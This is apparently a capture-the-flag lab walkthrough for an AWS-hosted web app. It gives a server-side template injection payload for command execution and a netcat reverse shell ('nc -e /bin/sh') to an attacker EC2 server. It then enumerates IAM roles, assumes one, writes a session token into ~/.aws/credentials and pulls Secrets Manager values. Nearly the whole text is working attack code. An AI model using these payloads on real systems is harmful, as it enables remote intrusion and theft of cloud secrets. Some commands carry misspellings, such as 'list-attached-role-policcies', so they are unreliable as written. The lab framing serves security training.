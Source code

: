 1. Acccess and exploit given web application with SSTI vulnerability

    ```html
    <div>{{''.__class__.__mro__[1].__subclasses__()[349]('ls',shell=True,stdout=-1).communicate()}}</div>
    ```

2. Prepare an EC2 instance which will serve as attaccker's server
   - Allow TCP traffic from victim's server coming to port `4444` in Security group
   - open port `4444` using `nc`
   -  you may use other port instead of `4444`

    ```bash
    nc -lvp 4444
    ```

3. Run below payload on vulnerable web application
   - It will give control over `web application`'s server to `attacker`'s  server.

    ```html
    <div>{{''.__class__.__mro__[1].__subclasses__()[349]('nc -e /bin/sh Public_IP_address_of_attacking_server 4444 ',shell=True,stdout=-1).communicate()}}</div>
    ```
4. List IAM roles 
    - Use EC2 instance created at `2.`
    ```bash
    # List IAM role which contains word "SSTI"
    aws iam list-roles | grep SSTI
    ```
5. List attached policies of IAM role
   - Look for role which contains  `secretsmanager`

    ```bash
    aws iam list-attached-role-policcies --role-name name_of_role_you_want
    ```
6. Assume role

    ```bash
    aws --region us-east-1 sts assume-role --role-arn arn_of_role_you_want --role-session-name any_name
    ```

7. configure profile `assumed-role` to use credentials retrieved above

    ```bash
    aws configure --profile assumed-role
    ```

8. Use `echo` to add `aws_session_token` to `~/.aws/credentials`

    ```bash
    echo 'aws_session_token = SessionToken_retrieved_above' >> ~/.aws/credentials
    ```

9.  Access secrets using configured profiles 

    ```bash
    aws --region us-east-1 --profile assumed-role secretsmanager list-secrets | grep SSTI
    ```

10. Get flag

    ```bash
    aws --region us-east-1 --profile assumed-role secretsmanager get-secret-value --secret-id arn_of_flag
    ```
